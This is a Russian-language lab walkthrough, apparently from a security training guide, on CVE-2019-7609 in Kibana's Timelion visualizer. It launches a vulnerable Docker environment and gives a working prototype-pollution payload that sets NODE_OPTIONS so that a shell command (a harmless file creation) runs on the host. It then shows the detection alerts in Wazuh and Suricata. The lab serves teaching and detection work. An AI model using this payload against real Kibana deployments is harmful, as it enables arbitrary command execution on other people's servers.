 # CVE-2019-7609

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 5.6.15 и 6.6.1 содержат ошибку выполнения произвольного кода в визуализаторе Timelion. Злоумышленник, имеющий доступ к приложению Timelion, может отправить запрос, который попытается выполнить JavaScript код. Благодаря этому злоумышленник может выполнять произвольные команды на хосте.

### Эксплуатация уязвимости

Перед запуском уязвимой среды выполните команду sudo sysctl -w vm.max\_map\_count=262145

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601/ будет доступна панель Kibana

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно перейти в визуализатор Timelion и отправить соответсвующую полезную нагрузку:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого перейдите во вкладку Canvas, чтобы выполнилась команда /bin/touch /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

После этого на хосте был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
